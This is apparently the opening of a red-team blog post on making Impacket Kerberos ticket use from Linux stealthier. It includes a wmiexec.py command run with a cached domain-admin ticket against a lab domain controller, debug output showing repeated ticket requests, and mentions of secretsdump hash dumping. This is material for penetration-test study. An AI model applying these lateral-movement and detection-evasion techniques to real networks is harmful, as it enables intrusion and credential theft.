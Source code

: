 # Making Linux Kerberos Tickets Not Bad

# Outline

Small post about making kerberos ticket better from linux. Mainly focusing on opsec considerations and how to blend into normal traffic. Also going to modify an impacket script and write my own. I wont be covering the basics of kerberos or ADCS as its been done 100 times by people a lot better at writing blogs than I am (most of the stuff here will be covered in the links below): 


- Kerberos: https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html

- For those that dont like reading: https://www.youtube.com/watch?v=byykEId3FUs&ab_channel=scrt.insomnihack


Things I’m going to cover.

- Ticket flow when using impacket (and how to make it not sus)

- Multiple tickets in one ccache file

# Ticket Flow When Using Impacket

So lets say you have a high privileged account in AD, Domain admin or a service account running as a DA or something. So you start to run psexec to login to boxes and grab stuff, secretsdump to dump hashes from the domain, creating a user account as a domain admin to flex in the report. What does impacket actually do when you do this?


Quick assumptions - You have the plain text pwd, ntlm hash and aes256 key (random but it’ll be used later)


Every time you run a script specifying kerberos and passing in a TGT impacket with use this TGT to request a TGS, for wmiexec it will request a CIFS ticket, then a HOST ticket four times. This is because impacket is not saving the ticket in memory and requesting a new one everytime.


```bash
KRB5CCNAME=$(pwd)/Administrator.ccache wmiexec.py runeterra.local/Administrator@dc01 -k -no-pass -debug
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /home/eljay/.local/lib/python3.9/site-packages/impacket
[+] Using Kerberos Cache: /home/eljay/Administrator.ccache
[+] SPN CIFS/DC01@RUNETERRA.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/RUNETERRA.LOCAL@RUNETERRA.LOCAL
[+] Using TGT from cache
[+] Trying to connect to KDC at RUNETERRA.LOCAL:88
[*] SMBv3.0 dialect used
[+] Using Kerberos Cache: /home/eljay/Administrator.ccache
[+] SPN HOST/DC01@RUNETERRA.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/RUNETERRA.LOCAL@RUNETERRA.LOCAL
[+] Using TGT from cache
[+] Trying to connect to KDC at RUNETERRA.LOCAL:88
[+] Target system is dc01 and isFQDN is True
[+] StringBinding: DC01[50601]
[+] StringBinding chosen: ncacn_ip_tcp:DC01[50601]
[+] Using Kerberos Cache: /home/eljay/Administrator.ccache
[+] SPN HOST/DC01@RUNETERRA.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/RUNETERRA.LOCAL@RUNETERRA.LOCAL
[+] Using TGT from cache
[+] Trying to connect to KDC at RUNETERRA.LOCAL:88
```